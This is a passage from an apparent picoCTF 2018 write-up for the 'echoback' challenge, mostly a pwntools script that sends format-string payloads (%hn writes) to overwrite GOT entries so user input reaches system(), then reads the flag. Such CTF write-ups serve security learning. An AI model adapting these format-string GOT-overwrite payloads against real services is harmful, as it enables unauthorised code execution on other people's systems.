 ```python
import struct
from pwn import *
r = remote('2018shell.picoctf.com', 37402)
#r = process('./echoback')

VULN = 0x080485ab
PUTS_PLT = 0x0804a01c
BEFORE_SYS = 0x80485dc
SYS_PLT = 0x804a020
SYSTEM = 0xf7e0fc00
PRINT_PLT = 0x804a010

payload1 = ''
payload1 += struct.pack("I", PUTS_PLT)
payload1 += struct.pack("I", PUTS_PLT+2)
payload1 += "%7$34211x"
payload1 += "%7$hn"
payload1 += "%8$33369x"
payload1 += "%8$hn"

r.sendafter('input your message:', payload1)

payload2 = ''
payload2 += p32(0x804a010)
payload2 += p32(0x804a010 + 2)
payload2 += '%' + str((0x08048460 & 0xffff) - 4*2) + 'x'
payload2 += '%7$hn'
payload2 += '%' + str(0x10000 + ((0x08048460 >> 16) - (0x08048460 & 0xffff)))  + 'x'
payload2 += '%8$hn'
r.sendafter('input your message:', payload2)
r.interactive()
```

Then, program waits for your input, but now that input is passed as an argument to system function. 
**cat flag.txt** will do the job.

Congrats. That's it, we got our flag. 
To see more about format string attacks click [here](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18).








